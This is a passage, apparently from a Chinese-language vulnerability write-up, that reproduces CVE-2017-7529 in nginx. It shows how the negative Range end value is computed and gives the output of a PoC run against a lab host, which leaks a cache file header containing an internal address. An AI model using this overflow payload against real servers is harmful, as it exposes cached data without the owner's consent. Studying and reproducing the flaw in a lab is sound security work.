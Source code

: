   
所以只要start+end为9223372036854775807即可，故：  
  
```
1end = 9223372036854775808 - 1212
2取负
3为-9223372036854774596

```  
  
  
执行结果为下图，可以发现读取到了缓存文件头，里面的8081端口在实际的业务场景中可能是其他的地址，这样便会造成信息泄漏。  
  
```
 1[root@blackstone CVE-2017-7529]# python3 poc.py http://192.168.247.150:8080/
 2
 3--00000000000000000002
 4Content-Type: text/html; charset=utf-8
 5Content-Range: bytes -605-611/612
 6
 7A@�cb`RY�=�cr�\me"59526062-264"
 8KEY: http://127.0.0.1:8081/
 9HTTP/1.1 200 OK
10Server: nginx/1.13.2
11Date: Thu, 09 Feb 2023 00:27:21 GMT
12Content-Type: text/html; charset=utf-8
13Content-Length: 612
14Last-Modified: Tue, 27 Jun 2017 13:40:50 GMT
15Connection: close
16ETag: "59526062-264"
17Accept-Ranges: bytes
18<!DOCTYPE html>
19<html>
20<head>
21<title>Welcome to nginx!</title>
22<style>23    body {24        width: 35em;25        margin: 0 auto;26        font-family: Tahoma, Verdana, Arial, sans-serif;27    }28</style>
29    </head>
30<body>
31<h1>Welcome to nginx!</h1>
32<p>If you see this page, the nginx web server is successfully installed and
33working. Further configuration is required.</p>
34<p>For online documentation and support please refer to
35<a href="http://nginx.org/">nginx.org</a>.<br/>
36Commercial support is available at
37<a href="http://nginx.com/">nginx.com</a>.</p>
38<p><em>Thank you for using nginx.</em></p>
39</body>
40</html>
41--00000000000000000002
42Content-Type: text/html; charset=utf-8
43Content-Range: bytes -9223372036854773979-611/612

```  
  